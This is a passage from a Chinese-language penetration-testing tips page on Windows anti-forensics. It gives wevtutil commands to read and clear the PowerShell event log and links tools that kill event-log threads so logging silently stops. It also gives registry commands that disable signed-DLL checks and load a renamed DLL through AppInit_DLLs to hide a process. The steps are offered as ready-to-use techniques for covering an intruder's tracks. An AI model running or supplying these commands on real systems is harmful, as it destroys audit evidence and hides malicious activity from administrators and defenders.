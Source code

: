 查看指定日志的具体内容：

```
wevtutil qe /f:text "windows powershell"
```

删除单个日志类别的所有信息：

```
wevtutil cl "windows powershell"
```

参考： 

[《渗透技巧-Windows日志的删除与绕过》](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-Windows%E6%97%A5%E5%BF%97%E7%9A%84%E5%88%A0%E9%99%A4%E4%B8%8E%E7%BB%95%E8%BF%87/)

---

### Tips 5. 破坏Windows日志记录功能

通过调用TerminateThread结束实现日志功能的线程，使得日志记录功能失效，但Windows Event Log服务没有被破坏，状态仍为正在运行

Powershell:

https://github.com/hlldz/Invoke-Phant0m

C++:

https://github.com/3gstudent/Windwos-EventLog-Bypass

参考： 

[《渗透技巧-Windows日志的删除与绕过》](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-Windows%E6%97%A5%E5%BF%97%E7%9A%84%E5%88%A0%E9%99%A4%E4%B8%8E%E7%BB%95%E8%BF%87/)

[《利用API-NtQueryInformationThread和I_QueryTagInformation实现对Windwos日志监控的绕过》](https://3gstudent.github.io/3gstudent.github.io/%E5%88%A9%E7%94%A8API-NtQueryInformationThread%E5%92%8CI_QueryTagInformation%E5%AE%9E%E7%8E%B0%E5%AF%B9Windwos%E6%97%A5%E5%BF%97%E7%9B%91%E6%8E%A7%E7%9A%84%E7%BB%95%E8%BF%87/)


---

### Tips 6. Win7和Windows Server 2008 R2下的进程隐藏

利用globalAPIhooks，通过修改注册表实现

下载工程：https://github.com/subTee/AppInitGlobalHooks-Mimikatz

修改代码指定要隐藏的程序名cldr.exe，编译成cldr.dll，cldr.dll放在`C:\ProgramData\Microsoft\HelpLibrary\`

管理员权限：

```
reg add "hklm\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows" /v RequireSignedAppInit_DLLs /t REG_DWORD /d 0
reg add "hklm\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows" /v LoadAppInit_DLLs /t REG_DWORD /d 1 /f
reg add "hklm\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows" /v AppInit_DLLs /t REG_SZ /d "C:\\ProgramData\\Microsoft\\HelpLibrary\\cldr.dll" /f
```
